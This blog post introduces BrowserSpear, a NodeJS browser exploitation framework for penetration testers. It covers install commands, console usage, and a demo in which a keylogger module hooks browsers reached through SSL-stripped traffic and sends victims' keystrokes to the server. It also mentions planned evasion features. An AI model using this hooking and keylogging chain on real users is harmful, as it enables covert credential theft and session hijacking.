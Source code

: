 ```yaml
---
title: 'Introducing BrowserSpear, a Lightweight Browser Exploitation Framework for Embedded Devices'
layout: post
categories:
  - BrowserSpear
tags:
  - Browser
  - exploitation
  - javascript
  - embedded
  - cross-platform
---
```

![Intro Browserspear]({{ "/assets/intro_browserspear.jpg" | relative_url }})

_With the rise of more IoT devices and other cheap off-the-shelf development platforms there is an opportunity to optimize the toolsets of Red-teamers, Penetration Testers and Ethical Hackers. To take full advantage of these devices we need our frameworks to be light and flexible. In this article, I want to present a tool that I built called 'BrowserSpear'. It consist of a basic framework to exploit browsers and is capable of working on all architectures with basic server capacity. Feedback is always welcome._

When demonstrating the need for network security, there are few tools that can really get the appropriate reaction and are easy enough to demo to a crowd of people without actually sending malicious code or using an exploit which might crash the device.

A great demo is to try to downgrade the security of traffic on a network from SSL to unencrypted HTTP. [We can do this](https://demgeeks.com/hackotg-v1-4-see-all-traffic-on-a-network) with tools such as [Bettercap](https://www.bettercap.org), [SSLstrip](https://moxie.org/software/sslstrip/) or another variant. After this security downgrade, it is possible to inject extra code into HTTP connections to make the website's background pink or give an alert. Just something that is very noticable to a user and that will get a reaction.

What takes this to the next level is Browser Exploitation. The very famous tool [BeEF](https://beefproject.com/) (Browser Exploitation Framework Project) can control the complete website a target loaded over an unsecure connection after an extra script is injected into it which 'hooks' the client and makes it receive commands from [BeEF](https://beefproject.com/).

## The issue

Browser Exploitation is nothing new and BeEF is a well-known tool, but it is a bit older, and needs a lot of extra dependencies. Here is were the usage of old libraries like libv8 and specific Ruby gems start to become an issue. Which makes it almost impossible to install on the newer architectures like ARM.

We see many auditing devices built on a mobile architecture such as ARM surface such as the [WiFi Pineapple](https://www.wifipineapple.com/), [Packet Squirrel](https://www.hak5.org/gear/packet-squirrel) and even [your own rooted Android smartphone](https://null-byte.wonderhowto.com/how-to/rooted-android-your-new-pentesting-tool-0159093). Which are compact tools that make a great portable and reliable platform. Using these devices on-the-go or for example a Raspberry Pi as a low-powered server in the cloud is an excellent use of these new and cheaper devices to audit networks and demonstrate attack vectors.

## So what is BrowserSpear?

>Browserspear is a lightweight framework built on the [NodeJS](https://nodejs.org/en/) engine. The complete core and modules are written in Javascript and adding payloads is as simple as writing an extra function and saving it in the 'modules' folder.

A device that has the server capacity to run NodeJS will be able to act as a server to 'spear' browsers and the complete behavior of the server can be controlled from a shell prompt or scripted beforehand.

BrowserSpear is still under development, but can be found in [this Github repo](https://github.com/larsveelaert/browserspear). The core functionalities like code delivery and hooking or 'spearing' targets are fully working.

## How to get started
With NodeJS and NPM installed (through your favourite package manager). Clone the Github-repo and install the following packages:

```
git clone https://github.com/larsveelaert/browserspear.git
npm install websockets prompt uglify-js commander
```

Starting a console session is as simple as running the script. --help will give you all the extra info you need for advanced configuration.

```
$ node browserspear.js --help
  Usage: browserspear [options]
  
  Options:
    -V, --version             output the version number
    -c, --commandfile <file>  file with commands to run in the console
    -p, --port <port>         Port to listen on
    -i, --ip <ip>             The ip address to use in the reverse connection
    -s, --start               Start a listener immediatly
    -h, --help                output usage informatio
```

In the BrowserSpear console. You can get a list of available commands by typing 'help'. Here is an extract:

```
>>> help
Available commands:
- start | restart 
	Restarts the server that serves the spear and provides the socket to connect to
- set <property> <value>
      Sets a value used by the server or module. ex. 'set LHOST: mydomain.org'
- options
      List all the values of the options.
- load <module>
      Loads the functions inside that module. Only one module can be selected at once. ex. 'load keylogger'
- modules <search>
      Gives a list of all available modules, with an optional searchterm.
- exec
      Executes the 'exec' function of the current selected module. Ex. send a payload
- conns
      List all connections to the server
- help
      Print this help.
```

The default address of the spear is localhost:1337. So navigating to this address on you local device running the server (started with start). Would give you the following output:

```
>>> start
>>> Tue Jan 02 2018 14:11:14 GMT+0000 (UTC) Server is listening on port 1337
New connection to client at ::1
>>> conns
List of connections:
 [0] ::1
```

Now we can load a module, for example an attack that logs all keystrokes in that browser called a keylogger. By default, the attack is sent to all the clients connected. The client will then record the keystrokes and send them to the server. The attack will stay active, even if the server is restarted or the module is unloaded.

```
>>> load keylogger
>>> keylogger: exec
Payload sent
>>> keylogger: 
https://www.linkedin.com/redir/invalid-link-page?url=%5B%3A%3A1%5D KEYLOGGER:I will now tell you all my secrets
```

Thats it for the basic usage. As you have control over the full webpage. There is no limit on what you can do within the constraints of Javascript. There are already known attacks to get persistance on the full-domain, cross-domain and even cross-browser.

Looking forward to the [Progressive Web Applications](https://developers.google.com/web/progressive-web-apps/). There is a need to correctly mitigate against this attack vector because the native API's already available in the browser are quite powerful and can be easily used against the user (ex. HTML5 webcam, Mic, GPS, Contacts, File access, ...). The ever smaller gap between online and offline will create a need for strong security analysis so system access can be strictly controlled.

## Goals and Roadmap
BrowserSpear will keep expanding it's capabilities aiming towards connection types (including obfiscation/evasion) and pre-configured payloads to make the complete framework very easy to use and very 'hackable'.

As it is an open-source project, development will happen through [its Github page](https://github.com/larsveelaert/browserspear). Please feel free to contact me for more info, give feedback or even help to develop the project to its full potential.

Happy spearing!
